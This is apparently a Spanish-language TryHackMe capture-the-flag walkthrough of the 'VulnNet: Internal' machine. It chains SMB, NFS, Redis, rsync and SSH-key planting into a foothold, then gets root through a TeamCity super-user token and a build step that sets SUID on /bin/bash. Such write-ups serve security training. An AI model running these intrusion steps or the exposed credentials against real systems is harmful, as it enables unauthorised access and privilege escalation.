







# VulnNet: Internal - TryHackMe

## Reconocimiento

Vamos a realizar un escaneo de puertos con nmap:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.129.189.180 -Pn -oG allPorts

PORT      STATE SERVICE      REASON
22/tcp    open  ssh          syn-ack ttl 62
111/tcp   open  rpcbind      syn-ack ttl 62
139/tcp   open  netbios-ssn  syn-ack ttl 62
445/tcp   open  microsoft-ds syn-ack ttl 62
873/tcp   open  rsync        syn-ack ttl 62
2049/tcp  open  nfs          syn-ack ttl 62
6379/tcp  open  redis        syn-ack ttl 62
38749/tcp open  unknown      syn-ack ttl 62
47817/tcp open  unknown      syn-ack ttl 62
50985/tcp open  unknown      syn-ack ttl 62
57651/tcp open  unknown      syn-ack ttl 62
```

Veamos las versiones de los servicios que están corriendo en los puertos abiertos:

```bash
nmap -sCV -p22,111,139,445,873,2049,6379,38749,47817,50985,57651 10.129.189.180

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:7a:3c:86:4c:95:ad:f2:db:8b:55:7b:39:44:d7:7c (RSA)
|   256 20:51:1f:c2:c4:61:09:94:20:44:9c:63:53:16:c3:dc (ECDSA)
|_  256 74:c1:0a:d8:20:c9:50:2d:ac:df:e2:67:10:f7:c7:e3 (ED25519)
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      50985/tcp   mountd
|   100005  1,2,3      52327/udp6  mountd
|   100005  1,2,3      55473/tcp6  mountd
|   100005  1,2,3      55605/udp   mountd
|   100021  1,3,4      38749/tcp   nlockmgr
|   100021  1,3,4      45555/tcp6  nlockmgr
|   100021  1,3,4      52865/udp6  nlockmgr
|   100021  1,3,4      55025/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 4
445/tcp   open  netbios-ssn Samba smbd 4
873/tcp   open  rsync       (protocol version 31)
2049/tcp  open  nfs         3-4 (RPC #100003)
6379/tcp  open  redis       Redis key-value store
38749/tcp open  nlockmgr    1-4 (RPC #100021)
47817/tcp open  mountd      1-3 (RPC #100005)
50985/tcp open  mountd      1-3 (RPC #100005)
57651/tcp open  mountd      1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-07-27T17:28:57
|_  start_date: N/A
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

Vemos los siguientes servicios corriendo:
- SSH en el puerto 22 OpenSSH 8.2p1
- RPCBind en el puerto 111, esto es un servicio que permite a los clientes localizar servicios de red en un servidor.
- Samba en los puertos 139 y 445, que permite compartir archivos e impresoras entre sistemas Windows y Linux.
- Rsync en el puerto 873, que es un servicio de sincronización de archivos.
- NFS en el puerto 2049, que es un sistema de archivos distribuido en sistemas Unix.
- Redis en el puerto 6379, que es una base de datos en memoria.
- Varios servicios de mountd y nlockmgr en los puertos 38749, 47817, 50985 y 57651, que son parte del sistema de archivos NFS.

Vamos a ver si podemos encontrar algún recurso compartido en Samba:

```bash
smbclient -L 10.129.189.180 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	shares          Disk      VulnNet Business Shares
	IPC$            IPC       IPC Service (ip-10-129-189-180 server (Samba, Ubuntu))

smbmap -H 10.129.189.180

IP: 10.129.189.180:445	Name: 10.129.189.180      	Status: NULL Session
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	shares                                            	READ ONLY	VulnNet Business Shares
	IPC$                                              	NO ACCESS	IPC Service (ip-10-129-189-180 server (Samba, Ubuntu))

nxc smb 10.129.189.180
SMB         10.129.189.180  445    IP-10-129-189-180 [*] Unix - Samba (name:IP-10-129-189-180) (domain:eu-west-3.compute.internal) (signing:False) (SMBv1:None) (Null Auth:True))
```

Nos metemos en el recurso compartido `shares` 

```bash
smbclient //10.129.189.180/shares -N

smb: \> dir
temp                                D        0  Sat Feb  6 11:45:10 2021
data                                D        0  Tue Feb  2 09:27:33 2021

smb: \> cd temp
smb: \temp\> ls

services.txt                        N       38  Sat Feb  6 11:45:09 2021

smb: \> cd data\
smb: \data\> ls

data.txt                            N       48  Tue Feb  2 09:21:18 2021
business-req.txt                    N      190  Tue Feb  2 09:27:33 2021
```

Vamos a leer el contenido de todos nuestros archivos:

`services.txt`

Es la flag requerida.

`business-req.txt`

```
We just wanted to remind you that we’re waiting for the DOCUMENT you agreed to send us so we can complete the TRANSACTION we discussed.
If you have any questions, please text or phone us.
```

`data.txt`

```
Purge regularly data that is not needed anymore
```

Vamos a ver si podemos encontrar algo interesante en el servicio de Redis que está corriendo en el puerto 6379. Vamos a conectarnos a él:

```bash
redis-cli -h 10.129.189.180 

10.129.189.180:6379> INFO
NOAUTH Authentication required.
```

Nos pide autenticación.

En el puerto 873 tenemos el servicio de rsync corriendo, vamos a ver si podemos conectarnos a él:

```bash
rsync 10.129.189.180::
files          	Necessary home interaction

rsync -av 10.129.189.180::files
Password: 
```

Nos pide contraseña, pero no tenemos ninguna. 

Vamos a probar ahora con el puerto 2049, que es el servicio de NFS. Vamos a ver si podemos montar algún recurso compartido:

```bash
sudo nmap -p111,2049 --script nfs-showmount 10.129.189.180


PORT     STATE SERVICE
111/tcp  open  rpcbind
| nfs-showmount: 
|_  /opt/conf *
2049/tcp open  nfs
```

Vemos que hay un recurso compartido en `/opt/conf`. Vamos a montarlo:

```bash
sudo mount -t nfs 10.129.189.180:/opt/conf /home/mmr/Descargas/nfs

# No nos funciona, vamos a probar con forzar otra versión

sudo mount -t nfs -o vers=3 10.129.189.180:/opt/conf /home/mmr/Descargas/nfs
```

Perfecto, investigamos y dentro de /nfs/redis/redis.conf encontramos la contraseña de Redis:

```
requirepass "B65Hx562F@ggAZ@F"
```

Vamos a probar conectarnos a Redis con esa contraseña:

```bash
redis-cli -h 10.129.189.180 -a B65Hx562F@ggAZ@F

10.129.189.180:6379> INFO
# Server
redis_version:5.0.7

# Keyspace
db0:keys=5,expires=0,avg_ttl=0
```

Vemos una base de datos con 5 claves. Vamos a ver qué claves hay:

```bash
10.129.189.180:6379> SELECT 0
OK
10.129.189.180:6379> KEYS *
1) "tmp"
2) "int"
3) "internal flag"
4) "authlist"
5) "marketlist"

10.129.189.180:6379> TYPE "internal flag"
string
10.129.189.180:6379> GET "internal flag"
```

Obtenemos la flag interna.

```bash
TYPE "authlist"
list

10.129.189.180:6379> LRANGE "authlist" 0 -1
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

Nos da una lista de autorizaciones para conectarse a Redis, todas codificadas en base64. Decodificamos todas y obtenemos:

```bash
echo "El hash" | base64 -d; echo

Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

De hecho todas son iguales, y nos da la autorización para conectarnos a rsync con el usuario `rsync-connect` y la contraseña `Hcg3HP67@TW@Bc72v`.

Seguimos investigando:

```bash
10.129.189.180:6379> TYPE "tmp"
string
10.129.189.180:6379> GET "tmp"
"temp dir..."

10.129.189.180:6379> TYPE "int"
string
10.129.189.180:6379> GET "int"
"10 20 30 40 50"

10.129.189.180:6379> TYPE "marketlist"
list

10.129.189.180:6379> LRANGE "marketlist" 0 -1
1) "Machine Learning"
2) "Penetration Testing"
3) "Programming"
4) "Data Analysis"
5) "Analytics"
6) "Marketing"
7) "Media Streaming"
```

Vamos a probar conectarnos a rsync con las credenciales que obtuvimos de Redis, he probado con ssh y no funciona:

```bash
rsync -av rsync-connect@10.129.189.180::files
```

Nos devuelve un montón de información, como:
 -rw-------             38 2021/02/06 11:54:25 sys-internal/user.txt
entre otros archivos.

```bash
rsync -av holaaaaaaaaaa.txt rsync-connect@10.129.189.180::files/
Password: 
sending incremental file list
holaaaaaaaaaa.txt
rsync: mkstemp "/.holaaaaaaaaaa.txt.DiAAZ3" (in files) failed: Permission denied (13)
```

No tenemos permisos para escribir en el directorio, pero sí podemos leer los archivos. Vamos a descargar el archivo `sys-internal/user.txt`:

Hcg3HP67@TW@Bc72v

```bash
rsync -av rsync-connect@10.129.189.180::files/sys-internal/user.txt .
Password: 
receiving incremental file list
-rw-------             38 2021/02/06 11:54:25 user.txt

sent 20 bytes  received 49 bytes  19,71 bytes/sec
total size is 38  speedup is 0,55
```

Hemos obtenido la flag de usuario, nos queda la de root.

Creo que podemos escribir en el fichero .ssh de el usuario `rsync-connect`, vamos a añadir nuestra clave pública para poder conectarnos por ssh. Primero generamos una clave ssh:

```bash
ssh-keygen -t rsa -b 4096 -f millave
nvim authorized_keys
# Copiamos nuestra clave pública en el fichero authorized_keys
rsync -av authorized_keys rsync-connect@10.129.189.180::files/sys-internal/.ssh
```

Nos conectamos por ssh con el usuario `sys-internal`:

```bash
ssh -i millave sys-internal@10.129.189.180 -p 22
```

Entramos por ssh:

```bash
sys-internal@ip-10-129-189-180:~$ id
uid=1000(sys-internal) gid=1000(sys-internal) groups=1000(sys-internal),24(cdrom)

sys-internal@ip-10-129-189-180:~$ sudo -l
Password:

sys-internal@ip-10-129-189-180:~$ getcap -r 2>/dev/null

sys-internal@ip-10-129-189-180:~$ find / -perm -4000 2>/dev/null

/usr/local/bin/sudo
/usr/bin/sudo
```

Hay 2 binarios de sudo:

```bash
ls -l /usr/local/bin/sudo
-rwsr-xr-x 1 root root 635312 Feb  1  2021 /usr/local/bin/sudo

ls -l /usr/bin/sudo
-rwsr-xr-x 1 root root 166056 Apr  4  2023 /usr/bin/sudo
```

Previamente analizando archivos en esta ruta `sys-internal/.local/share/gvfs-metadata` habíamos encontrado esto:

```bash
ls
home  home-5eeb8611.log

strings home

meta
(download-uri
Downloads
sudo-1.9.5p2.tar.gz
https://www.sudo.ws/dist/sudo-1.9.5p2.tar.gz
```

Esto nos da una pista de que se ha descargado una versión de sudo, la 1.9.5p2. 

Lo que pasa es que esa ruta en el path hace que /usr/bin/sudo nunca se ejecute, y en su lugar se ejecuta la versión se ha descargado.

```bash
sys-internal@ip-10-129-189-180:/tmp$ /usr/local/bin/sudo --version
Sudo version 1.9.5p2
Sudoers policy plugin version 1.9.5p2
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.5p2
Sudoers audit plugin version 1.9.5p2
sys-internal@ip-10-129-189-180:/tmp$ /usr/bin/sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```

Esta versión de sudo es vulnerable a CVE-2021-3156, es un buffer overflow que nos permite escalar privilegios a root.

No vamos a hacer esto, pues en `/` vemos un directorio llamado TeamCity y vemos esto:

```bash
This is the JetBrains TeamCity home directory.

To run the TeamCity server and agent using a console, execute:
* On Windows: `.\bin\runAll.bat start`
* On Linux and macOS: `./bin/runAll.sh start`

By default, TeamCity will run in your browser on `http://localhost:80/` (Windows) or `http://localhost:8111/` (Linux, macOS). If you cannot access the default URL, try these Troubleshooting tips: https://www.jetbrains.com/help/teamcity/installing-and-configuring-the-teamcity-server.html#Troubleshooting+TeamCity+Installation.

For evaluation purposes, we recommend running both server and agent. If you need to run only the TeamCity server, execute:
* On Windows: `.\bin\teamcity-server.bat start`
* On Linux and macOS: `./bin/teamcity-server.sh start`
```

Nos dice que TeamCity corre en el puerto 8111, vamos a ver si podemos acceder a él:

```bash
wget http://localhost:8111
--2026-07-27 22:07:30--  http://localhost:8111/
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:8111... failed: Connection refused.
Connecting to localhost (localhost)|127.0.0.1|:8111... connected.
HTTP request sent, awaiting response... 401 

Username/Password Authentication Failed.
```

Vamos a meternos desde el navegador, para ello vamos a hacer un túnel con ssh:

```bash
ssh -L 8111:localhost:8111 -i millave sys-internal@10.129.189.180
```

http://localhost:8111/login.html



Usamos linpeas para ver más información sobre el sistema y posibles vectores de escalada de privilegios:

```bash
tcp   LISTEN 0      100     [::ffff:127.0.0.1]:8111              *:*            
tcp   LISTEN 0      1       [::ffff:127.0.0.1]:8105              *:*
tcp   LISTEN 0      50      [::ffff:127.0.0.1]:51941             *:*
tcp   LISTEN 0      5                127.0.0.1:631         0.0.0.0:*
```

Vemos varios puertos escuchando en localhost, entre ellos el 8111 que es TeamCity.

Hemos encontrado EC2 security credentials, esto es un archivo que contiene credenciales de AWS:

Estas credenciales nos permiten conectarnos a AWS y ver los recursos que hay

Sin embargo, en catalina.out antes hice esto:

```bash
grep -riE "pass|password" catalina.out

[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8494139184482786852 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 9112682479416228733 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1184781491476205032 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1766718408916667047 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 2032138902700807718 (use empty username with the token as the password to access the server)
```

Por lo que vamos a usar el ultimo token que hemos encontrado para loguearnos en TeamCity, con usuario vacio y contraseña`2032138902700807718`.

Ya estando dentro creamos un nuevo proyecto y añadimos un nuevo build step, en el cual ejecutamos un script de shell con el siguiente contenido:

```bash
chmod +s /bin/bash
```







Le damos a Run y logramos que el binario /bin/bash tiene el bit SUID activado, por lo que ahora podemos ejecutar bash como root:



```bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash

/bin/bash -p
bash-5.0# whoami
root
```

Vamos al directorio `/root` y leemos el archivo `root.txt`.